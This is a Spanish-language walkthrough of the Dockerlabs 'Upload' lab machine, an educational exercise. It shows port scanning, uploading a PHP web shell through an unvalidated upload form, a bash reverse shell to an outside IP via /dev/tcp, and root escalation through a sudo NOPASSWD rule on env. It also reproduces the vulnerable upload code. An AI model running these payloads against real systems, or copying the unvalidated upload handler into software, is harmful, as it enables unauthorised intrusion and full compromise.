

# Upload - Dockerlabs

## Reconocimiento

Vamos a realizar un escaneo de la máquina para obtener información sobre los servicios que se encuentran corriendo en ella con nmap

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64

nmap -sCV -p80 172.17.0.2

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```



## Explotación

Vamos que es una página web que nos permite subir archivos. Veamos que tipo de archivos podemos subir y que pasa si subimos un archivo php.

```php
<?php
system($_GET['cmd']);
?>
```

The file cmd.php has been uploaded.

Al parecer nos deja subir archivos php, vamos a ver si podemos ejecutar el archivo que subimos.

http://172.17.0.2/cmd.php?cmd=whoami

Nos sale 404 Not found, pero acabo de probar por pura suerte:

http://172.17.0.2/uploads/cmd.php?cmd=whoami

Y me devuelve www-data, por lo que podemos ejecutar comandos en la máquina. Vamos a ver si podemos obtener una shell.

Para asegurarme he lanzado gobuster para ver si hay algún directorio oculto, pero no he encontrado nada.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/server-status        (Status: 403) [Size: 275]
```

```bash
nc -nlvp 443
```

http://172.17.0.2/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.19/443 0>%261'

Hemos obtenido una reverse shell, vamos a hacerle un tratamiento TTY.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

## Escalada de privilegios

Probemos las cosas típicas:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# No hay grupos de los que abusar

sudo -l

User www-data may run the following commands on 42867bd7a61b:
    (root) NOPASSWD: /usr/bin/env
```

Hemos dado en el clavo a la segunda, podemos ejecutar env como root sin contraseña. Nos metemos en https://gtfobins.org/gtfobins/env/#shell y ejecutamos este comando:

```bash
sudo env /bin/bash
root@42867bd7a61b:/var/www/html/uploads# whoami
root

root@42867bd7a61b:/# id
uid=0(root) gid=0(root) groups=0(root)
```

He estado buscando la flag y no creo que haya ninguna, pero este era el funcionamiento de la subida de archivos:

```php
<?php
    $targetDirectory = "uploads/";
    $targetFile = $targetDirectory . basename($_FILES["file"]["name"]);
    $uploadOk = 1;

    if(isset($_POST["submit"])) {
        if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
            echo "<p>The file " . htmlspecialchars(basename($_FILES["file"]["name"])) . " has been uploaded.</p>";
        } else {
            echo "<p>Error.</p>";
            $uploadOk = 0;
        }
    }
    ?>
```

Vemos que no hay ninguna validación de los archivos que se suben.